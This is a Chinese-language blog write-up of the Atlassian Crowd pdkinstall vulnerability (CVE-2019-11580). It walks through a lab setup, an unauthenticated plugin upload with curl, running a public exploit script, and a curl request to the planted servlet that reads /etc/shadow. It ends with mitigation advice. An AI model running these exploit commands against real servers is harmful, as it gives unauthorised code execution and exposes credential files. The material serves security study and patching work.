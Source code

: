 # Atlassian Crowd未授权访问漏洞



#### 漏洞概述
Atlassian Crowd和Atlassian Crowd Data Center都是澳大利亚Atlassian公司的产品。Atlassian Crowd是一套基于Web的单点登录系统。该系统为用用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了了pdkinstall开发插件,使其存在安全漏漏洞洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件,执行任意代码/命令,从而获得服务器权限


#### 环境搭建
```bash
wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
unzip atlassian-crowd-3.4.3.zip

cd atlassian-crowd-3.4.3
vim crowd-webapp/WEB-INF/classes/crowd-init.properties    #修改crowd-init.properties 配置文件，设置主目录
    crowd.home=/var/crowd-home    # 主目录位置(根据自己的写)

# 执行启动命令
./start_crowd.sh
```
浏览器访问`http://192.168.0.100:8095` 点击`Set up Crowd`
这里去官网申请试用30天`https://my.atlassian.com/products/index`并填写到license 进行下一步安装,直到安装完成。


###### 未授权访问测试
安装完成之后在插件目录会有一些插件`bundled-plugins`
上传一个标准的插件,来自atlassian-bundled-plugins中的`applinks-plugin-5.4.12.jar`
```bash
curl --form "file_cdl=@applinks-plugin-5.4.12.jar" http://192.168.0.100:8095/crowd/admin/uploadplugin.action -v
```


###### Atlassian Crowd RCE
该漏洞源于网络系统或产品未对输入的数据进行正确的验证。受影响的产品及版本包括：Atlassian Crowd 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本；Atlassian Crowd Data Center 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本。

漏洞利用脚本：`https://github.com/jas502n/CVE-2019-11580`
```bash
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.0.100:8095

# 通过浏览器访问链接测试其他命令
curl http://192.168.0.100:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```




#### 防御手段
- 设置访问`/crowd/admin/uploadplugin.action`的源ip
- 升级最新版本(3.5.0以上)。










---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/atlassian-crowd%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/  

